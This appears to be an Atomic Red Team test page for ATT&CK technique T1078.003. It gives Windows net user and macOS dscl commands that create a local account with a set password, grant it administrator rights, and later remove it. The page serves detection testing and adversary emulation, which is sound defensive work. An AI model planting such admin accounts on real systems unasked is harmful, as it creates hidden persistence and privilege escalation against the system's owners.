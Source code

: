 # T1078.003 - Local Accounts
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1078/003)
<blockquote>Adversaries may obtain and abuse credentials of a local account as a means of gaining Initial Access, Persistence, Privilege Escalation, or Defense Evasion. Local accounts are those configured by an organization for use by users, remote support, services, or for administration on a single system or service.

Local Accounts may also be abused to elevate privileges and harvest credentials through [OS Credential Dumping](https://attack.mitre.org/techniques/T1003). Password reuse may allow the abuse of local accounts across a set of machines on a network for the purposes of Privilege Escalation and Lateral Movement. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Create local account with admin privileges](#atomic-test-1---create-local-account-with-admin-privileges)

- [Atomic Test #2 - Create local account with admin privileges - MacOS](#atomic-test-2---create-local-account-with-admin-privileges---macos)


<br/>

## Atomic Test #1 - Create local account with admin privileges
After execution the new account will be active and added to the Administrators group

**Supported Platforms:** Windows


**auto_generated_guid:** a524ce99-86de-4db6-b4f9-e08f35a47a15






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
net user art-test /add
net user art-test Password123!
net localgroup administrators art-test /add
```

#### Cleanup Commands:
```cmd
net localgroup administrators art-test /delete >nul 2>&1
net user art-test /delete >nul 2>&1
```





<br/>
<br/>

## Atomic Test #2 - Create local account with admin privileges - MacOS
After execution the new account will be active and added to the Administrators group

**Supported Platforms:** macOS


**auto_generated_guid:** f1275566-1c26-4b66-83e3-7f9f7f964daa






#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
dscl . -create /Users/AtomicUser
dscl . -create /Users/AtomicUser UserShell /bin/bash
dscl . -create /Users/AtomicUser RealName "Atomic User"
dscl . -create /Users/AtomicUser UniqueID 503
dscl . -create /Users/AtomicUser PrimaryGroupID 503
dscl . -create /Users/AtomicUser NFSHomeDirectory /Local/Users/AtomicUser
dscl . -passwd /Users/AtomicUser mySecretPassword
dscl . -append /Groups/admin GroupMembership AtomicUser
```

#### Cleanup Commands:
```bash
sudo dscl . -delete /Users/AtomicUser
```





<br/>
